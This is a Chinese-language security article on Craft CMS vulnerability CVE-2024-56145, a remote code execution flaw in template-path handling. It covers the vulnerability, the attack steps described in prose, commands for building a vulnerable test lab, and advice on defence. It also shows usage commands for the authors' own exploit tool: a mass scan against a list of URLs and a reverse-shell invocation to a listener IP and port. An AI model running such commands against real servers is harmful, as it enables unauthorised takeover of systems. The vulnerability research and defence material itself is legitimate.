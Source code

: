 #  深度剖析 CVE-2024-56145：Craft CMS 高危漏洞的利用与防御   
云梦DC  云梦安全   2024-12-23 00:39  
  
近日，安全社区披露了一个影响 Craft CMS 的严重漏洞（CVE-2024-56145）。该漏洞源于对用户输入模板路径的处理不当，攻击者可通过精心构造的路径执行任意代码，实现远程代码执行（RCE）。本篇文章将从漏洞原理、利用过程、防御措施三个角度，带您深入了解该漏洞的威胁与应对。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpxqdIuYP1zscPk7a30Pss9hnf8CibDV7NaiczVWkpiamRXObKsSF8o7T2FLaOWl7TDqKwb8bVRLgrcZg/640?wx_fmt=png&from=appmsg "")  
  
### 一、漏洞概述  
  
**漏洞编号**  
：CVE-2024-56145**漏洞类型**  
：远程代码执行（RCE）**影响版本**  
：Craft CMS 5.5.0（及可能的其他版本）**漏洞原因**  
：模板路径的输入验证缺失，导致未授权用户可以注入恶意路径并加载执行任意代码。  
  
Craft CMS 是一款广泛应用于内容管理的工具，其易用性和灵活性深受开发者喜爱。然而，本次漏洞揭示了系统在高自由度输入功能上的潜在风险，可能被攻击者滥用来入侵服务器。  
### 二、漏洞利用过程  
  
我们通过自研工具复现了漏洞的利用流程，并发现其攻击方式主要分为以下几步：  
#### 1.漏洞检测  
  
攻击者首先扫描目标站点是否存在漏洞。通常通过发送恶意构造的请求，观察返回的错误信息或响应状态，判断系统是否可被利用。  
#### 2.生成恶意模板路径  
  
利用 Craft CMS 的模板加载机制，攻击者可以通过伪造路径将恶意代码注入到系统的模板解析器中。  
#### 3.执行代码  
  
一旦注入成功，攻击者即可通过反弹 Shell 或其他方式在目标服务器上执行任意代码，达到完全控制目标的目的。  
### 三、复现测试环境  
  
为了方便安全研究人员测试漏洞，我们提供了 Craft CMS 环境搭建的具体步骤。**注：请勿将测试环境用于非法用途！**  
#### 1. 环境要求  
- **操作系统**  
：Linux / macOS / Windows（需支持 Docker 和 DDEV）  
  
- **依赖**  
：Docker、DDEV、PHP 8.2、MySQL 8.0  
  
#### 2. 快速搭建步骤  
```

```  
```
mkdir craft-vuln &&cd craft-vuln# 配置 Craft CMS 项目ddev config \ --project-type=craftcms \ --docroot=web \ --create-docroot \ --php-version="8.2" \ --database="mysql:8.0"# 启动项目ddev start -y# 安装指定版本的 Craft CMSddev composer create -y --no-scripts"craftcms/craft:5.0.0"ddev composer require"craftcms/cms:5.5.0" --no-scripts --with-all-dependencies# 设置安全密钥并完成初始化ddev craft setup/security-key ddev craft install/craft \ --username=admin \ --password=password123 \ --email=admin@example.com \ --site-name=VulnLab \ --language=en \ --site-url='$DDEV_PRIMARY_URL'# 配置 PHP 参数mkdir -p .ddev/php/ &&echo"register_argc_argv = On" > .ddev/php/php.ini ddev restart# 启动浏览器访问ddev launch
```  
  
通过以上命令，您可以快速搭建一个 Craft CMS 测试环境，用于复现漏洞。  
### 四、自研漏洞利用工具功能  
  
针对 CVE-2024-56145，我们开发了一款 CLI 工具，支持漏洞检测与利用：  
#### 1.漏洞检测  
  
该工具支持单目标和多目标的漏洞扫描。  
  
**示例命令**  
：  
  
```
python exploit.py check -f urls.txt -t 10 -o results.txt
```  
  
  
  
参数说明：  
- -f  
：包含目标 URL 的文件路径  
  
- -t  
：线程数量（默认 10）  
  
- -o  
：输出结果保存文件  
  
#### 2.漏洞利用  
  
利用工具可以快速生成恶意模板路径并触发代码执行。  
  
**示例命令**  
：  
  
```
python exploit.py exploit -u https://target.com -lh 192.168.1.100 -lp 4444 -px bash
```  
  
  
  
参数说明：  
- -u  
：目标站点 URL  
  
- -lh  
：本地监听 IP  
  
- -lp  
：监听端口  
  
- -px  
：Payload 类型（支持bash  
、nc  
 等）  
  
### 五、防御与建议  
#### 1.立即升级  
  
Craft CMS 官方已发布补丁，建议用户将系统更新至最新版本，修复漏洞。  
#### 2.输入验证  
  
加强对模板路径等动态输入的验证，防止未授权用户传递恶意路径。  
#### 3.使用 WAF  
  
部署 Web 应用防火墙（WAF），实时监测和拦截可疑请求。  
#### 4.日志审计  
  
定期审计服务器日志，及时发现异常活动。  
  
  
